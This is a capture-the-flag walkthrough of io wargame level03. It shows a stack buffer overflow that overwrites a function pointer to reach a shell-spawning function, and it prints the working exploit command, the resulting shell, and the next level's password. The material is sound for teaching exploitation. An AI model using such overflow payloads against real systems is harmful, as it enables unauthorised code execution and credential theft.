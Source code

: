 Let's take a look at the source code...

```
level3@io:/levels$ cat /levels/level03.c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}

```

Looking at the code, it is clear that we want to read the good(0 function, wo we can get a shell. We can see a vulnerabillity on these lines.

```
        char buffer[50];

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);
```

Looking at this, it establishes a space in memory that is 50 bytes long. It uses the memcpy function to copy the second argument (first argument after the file name), to that space, and will write as much data as it needs to (even if it starts writing outside of the buffer).
Then it will use memset on the same space to ovewrite the entire buffer, except for the last four bytes (giving us enough space for a 32 bit address), with zeroes. The four bytes it leaves unwritten will be enough to write an address. Now let's take a look at the input filtering it has.

```
        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;
```

So this requires that the function is given two arguments (so the filename and another argument), and that the second argument must be atleast 4 characters long, otherwise it will just exit the program. Other than that,
the input isn't filtered. So since there are no calls to the win function, however we can overwrite the eip register which holds the return address so we can force it to run that function. There appears to be 
a couple of things missing with the eip register so let's just try running the binary.

```
level3@io:/levels$ ./level03 4444
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$ ./level03 0000
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

If the binary is telling us the truth, then it appears that it has hardcoded the eip register. Let's see if we can find where the address is pointing us.

```
level3@io:/levels$ objdump -D level03 | grep 80484a4
080484a4 <bad>:
 80484a4:	55                   	push   %ebp
 80484b2:	c7 44 24 04 a4 84 04 	movl   $0x80484a4,0x4(%esp)
 80484d8:	c7 45 f4 a4 84 04 08 	movl   $0x80484a4,-0xc(%ebp)
```

So we can see that it is pointing us to the bad function, which from our previous output makes since. It also lead me to the conclusion that the following lines of code were responsible for hard coding the eip register

```
        void (*functionpointer)(void) = bad;
        
        
        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();
```

So because the function is called at the very end of main, if we try to overwrite the eip register it will just get overwritten. However we could try to overwrite the bad address in that function to good, so when it calls it at the end, it will set the eip register to good and thus give us a shell. This will require looking at the disassembly.

```
Dump of assembler code for function main:
   0x080484c8 <+0>:	push   ebp
   0x080484c9 <+1>:	mov    ebp,esp
   0x080484cb <+3>:	sub    esp,0x78
   0x080484ce <+6>:	and    esp,0xfffffff0
   0x080484d1 <+9>:	mov    eax,0x0
   0x080484d6 <+14>:	sub    esp,eax
   0x080484d8 <+16>:	mov    DWORD PTR [ebp-0xc],0x80484a4
   0x080484df <+23>:	cmp    DWORD PTR [ebp+0x8],0x2
   0x080484e3 <+27>:	jne    0x80484fc <main+52>
   0x080484e5 <+29>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484e8 <+32>:	add    eax,0x4
   0x080484eb <+35>:	mov    eax,DWORD PTR [eax]
   0x080484ed <+37>:	mov    DWORD PTR [esp],eax
   0x080484f0 <+40>:	call   0x804839c <strlen@plt>
```

Since in the program the strleng() is called after "void (*functionpointer)(void) = bad;" it is safe to assume that the address we are trying to overwrite
is above main+40. Looking at main+16, it appears that the address is stored in memory at ebp-0xc (Since it is moving the address into the location). So now to find where our input is first stored.

```
   0x080484f5 <+45>:	cmp    eax,0x3
   0x080484f8 <+48>:	jbe    0x80484fc <main+52>
   0x080484fa <+50>:	jmp    0x8048505 <main+61>
   0x080484fc <+52>:	mov    DWORD PTR [ebp-0x5c],0x0
   0x08048503 <+59>:	jmp    0x8048579 <main+177>
   0x08048505 <+61>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048508 <+64>:	add    eax,0x4
   0x0804850b <+67>:	mov    eax,DWORD PTR [eax]
---Type <return> to continue, or q <return> to quit---
   0x0804850d <+69>:	mov    DWORD PTR [esp],eax
   0x08048510 <+72>:	call   0x804839c <strlen@plt>
   0x08048515 <+77>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+81>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804851c <+84>:	add    eax,0x4
   0x0804851f <+87>:	mov    eax,DWORD PTR [eax]
   0x08048521 <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048525 <+93>:	lea    eax,[ebp-0x58]
   0x08048528 <+96>:	mov    DWORD PTR [esp],eax
   0x0804852b <+99>:	call   0x804838c <memcpy@plt>
```

Yet again, using where the functions are called as our guide, we can assume that we can find our input within this portion. Looking 
avove the memcpy call, we can see that it loads a memory address at ebp-0x58 and supplies it as an argument to the memcpy function (while I was solving this challenge, I played around viewing the register values to confirm this). So let's assume that that is where our input is stored. Now we have to find out how many characters we have to write to reach the address.

```
0x58 - 0xc = 76
```

So it will take 76 characters to reach the address. Now to find the address of the good() function.

```
level3@io:/levels$ objdump -D level03 | grep good
08048474 <good>:
```

So now that we have the address (0x08048474), we have everything we need to craft the input (remembering that we have to send the address using little endian).

```
level3@io:/levels$ ./level03 `python -c 'print "0"*76 + "\x74\x84\x04\x08"'`
This is exciting we're going to 0x8048474
Win.
sh-4.3$ whoami
level4
sh-4.3$ cat /home/level4/.pass
7WhHa5HWMNRAYl9T
```

And just like that, we pwned the binary.
